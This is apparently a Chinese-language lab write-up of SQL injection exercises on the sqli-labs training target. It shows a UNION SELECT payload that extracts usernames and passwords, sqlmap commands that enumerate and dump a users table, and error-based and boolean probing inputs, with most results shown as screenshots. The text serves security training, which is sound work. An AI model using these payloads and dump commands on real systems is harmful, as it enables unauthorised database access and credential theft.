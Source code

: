 `id=-1' union select 1,group_concat(id,username),group_concat(password) from users%23`

![image-20211207090307454](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020052587.png)

### 2、sqlmap

GET型

```cmd
python sqlmap.py -u "http://10.12.202.251:26700/Less-1/?id=1"
```

![image-20211207082923797](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020052399.png)

```cmd
python sqlmap.py -u "http://10.12.202.251:26700/Less-1/?id=1" --dbs
```

![image-20211207083244515](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020052298.png)

```c
python sqlmap.py -u "http://10.12.202.251:26700/Less-1/?id=1" -D security --tables
```

![image-20211207083406765](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020052473.png)

```cmd
python sqlmap.py -u "http://10.12.202.251:26700/Less-1/?id=1" -D security -T users --columns
```

![image-20211207083538726](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020052408.png)

```cmd
python sqlmap.py -u "http://10.12.202.251:26700/Less-1/?id=1" -D security -T users -C "id,password,username" --dump
```

![image-20211207083754272](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020052999.png)



## 实验二	基于错误的GET整型注入

输入`id=1`：

![image-20211207090441874](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020053420.png)

输入`id=1'`有报错回显`near '' LIMIT 0,1' at line 1`，猜测后台sql语句：`select * from where id=('input')`

![image-20211207090557088](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020053629.png)

再输入`id=1 and 1=1 #`和`id=1 and 1=2 #`进行测试：（这里用`#`不报错）

![image-20211207090815312](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020053381.png)

![image-20211207090833697](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020053212.png)
